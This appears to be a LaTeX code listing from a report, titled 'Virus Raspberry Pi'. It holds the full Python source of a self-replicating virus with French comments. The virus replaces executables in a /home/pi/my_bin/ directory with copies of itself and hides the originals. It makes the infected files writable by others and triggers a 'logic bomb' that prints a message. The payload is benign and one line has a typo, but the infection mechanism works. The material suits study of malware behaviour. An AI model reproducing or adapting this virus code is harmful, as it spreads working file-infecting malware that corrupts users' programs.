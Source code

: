 \begin{lstlisting}[caption={Virus Raspberry Pi},label={listing:Python}]
#!/usr/bin/python3
# _*_ coding: Utf-8 _*_

#=== INFECTED ===
'''
Programme virus infectant le dossier "ls"
- Fonctions
    IsInfected
    bomb
- Variables
    fileToCorrupt
    filenames
    ftcLines
    originalFile
    pathToCorrupt
'''

import os
import os.path
from sys import argv                               
import shutil
import stat 
import random

cmd_init, cmd = ('ls','ls')
pathToCorrupt = '/home/pi/my_bin/'
fileToCorrupt = pathToCorrupt + cmd

def IsInfected(content):
    return content == b'# ===INFECTED===\n'
         
def bomb():
    print('INFECTÉ')


with open(fileToCorrupt, 'rb') as currentFile:
    ftcLines = currentFile.readlines()
    if IsInfected(ftcLines[1]):
        filenames = os,listdir(pathToCorrupt)
        random.shuffle(filenames)                           
        for cmd in filenames:
            if cmd != cmd_init and cmd[0] != '.':
                with open(pathToCorrupt + cmd, 'rb') as newFile:
                    ftcLines = newFile.readlines()
                    if not IsInfected(ftcLines[1]):
                        fileToCorrupt = pathToCorrupt + cmd
                        break
                    else:
                        print('All files already corrupted')       
                        exit(0)

       
#Début de l'infection
try:
    print('Infection in progress: command', cmd)
    originalFile = pathToCorrupt + '.'+  cmd
    shutil.move(fileToCorrupt, originalFile)
    shutil.copyfile(argv[0], fileToCorrupt)
    os.chmod(fileToCorrupt, stat.S_IXUSR| stat.S_IRUSR| stat.S_IWUSR| stat.S_IXGRP| stat.S_IROTH| stat.S_IWOTH| stat.S_IXOTH| stat.S_IROTH| stat.S_IWOTH)
except:
    #Problème lors de l'infection, on restitue les données initiales
    shutil.move(originalFile,fileToCorrupt)
    exit(1)
    
    
#Bombe logique
bomb()
\end{lstlisting}

\medskip
\medskip

